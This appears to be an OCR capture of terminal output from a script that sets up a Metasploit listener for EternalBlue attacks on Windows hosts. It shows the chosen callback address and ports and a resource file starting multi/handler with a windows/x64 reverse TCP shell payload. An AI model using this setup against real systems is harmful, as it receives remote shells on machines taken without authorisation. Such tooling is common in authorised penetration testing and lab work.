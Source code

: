     
    
    root@kali# ./listener_prep.sh
      __
      /,-
      ||)
      \\_, )
       `--'
    Eternal Blue Metasploit Listener
    
    LHOST for reverse connection:
    10.254.1.47
    LPORT for x64 reverse connection:
    443
    LPORT for x86 reverse connection:
    445
    Enter 0 for meterpreter shell or 1 for regular cmd shell:
    1
    Type 0 if this is a staged payload or 1 if it is for a stageless payload
    1
    Starting listener (stageless)...
    [ ok ] Starting postgresql (via systemctl): postgresql.service.
    
    
    MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
    MMMMMMMMMMM                MMMMMMMMMM
    MMMN$                           vMMMM
    MMMNl  MMMMM             MMMMM  JMMMM
    MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
    MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
    MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
    MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
    MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
    MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
    MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
    MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
    MMMMR  ?MMNM             MMMMM .dMMMM
    MMMMNm `?MMM             MMMM` dMMMMM
    MMMMMMN  ?MM             MM?  NMMMMMN
    MMMMMMMMNe                 JMMMMMNMMM
    MMMMMMMMMMNm,            eMMMMMNMMNMM
    MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
    MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
            https://metasploit.com
    
    
           =[ metasploit v5.0.6-dev                           ]
    + -- --=[ 1857 exploits - 1055 auxiliary - 327 post       ]
    + -- --=[ 546 payloads - 44 encoders - 10 nops            ]
    + -- --=[ 2 evasion                                       ]
    
    [*] Processing config.rc for ERB directives.
    resource (config.rc)> use exploit/multi/handler
    resource (config.rc)> set PAYLOAD windows/x64/shell_reverse_tcp
    PAYLOAD => windows/x64/shell_reverse_tcp
    resource (config.rc)> set LHOST 10.254.1.47
    LHOST => 10.254.1.47
    resource (config.rc)> set LPORT 443
    LPORT => 443
    resource (config.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (config.rc)> set EXITFUNC thread
    EXITFUNC => thread
    resource (config.rc)> exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.